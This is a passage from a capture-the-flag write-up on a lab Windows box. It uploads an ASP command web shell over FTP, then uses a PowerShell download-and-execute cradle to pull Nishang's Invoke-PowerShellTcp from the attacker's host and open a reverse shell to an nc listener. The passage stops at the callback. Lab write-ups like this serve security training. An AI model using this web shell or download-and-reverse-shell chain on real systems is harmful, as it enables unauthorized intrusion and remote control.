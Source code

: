     
    HTTP/1.1 200 OK
    Content-Type: text/html
    Last-Modified: Fri, 12 Oct 2018 22:10:28 GMT
    Accept-Ranges: bytes
    ETag: "abe052627862d41:0"
    Server: Microsoft-IIS/10.0
    Date: Mon, 13 May 2019 06:36:04 GMT
    Connection: close
    Content-Length: 696
    

I’ll try a few shells and see what happens. If I try to upload a php or aspx
shell, I get this error on visiting the page:

![1547476784114](https://0xdfimages.gitlab.io/img/1547476784114.png)

But if I upload a simple asp shell, it works:

    
    
    root@kali# cat /opt/shells/asp/cmd.asp 
    <%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
    
    
    
    ftp> put /opt/shells/asp/cmd.asp 0xdf.asp
    local: /opt/shells/asp/cmd.asp remote: 0xdf.asp
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    100 bytes sent in 0.00 secs (5.6098 MB/s)
    
    
    
    root@kali# curl http://10.10.10.116/upload/0xdf.asp?cmd=whoami
    conceal\destitute
    

### Interactive Shell

From Webshell, it’s time to get an interactive shell. I’ll go with my Windows
stand-by, Nishang `Invoke-PowerShellTcp.ps1`.

  1. Make a copy of it in the local directory.
  2. Add a line to the end: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443`
  3. Start `python3 -m http.server 80` in that same directory
  4. Start `nc -lnvp 443`
  5. Visit: `http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)`

First the webserver is hit to get `Invoke-PowerShellTcp.ps1`:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.116 - - [14/Jan/2019 09:49:41] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
    

Then `nc` gets the callback:

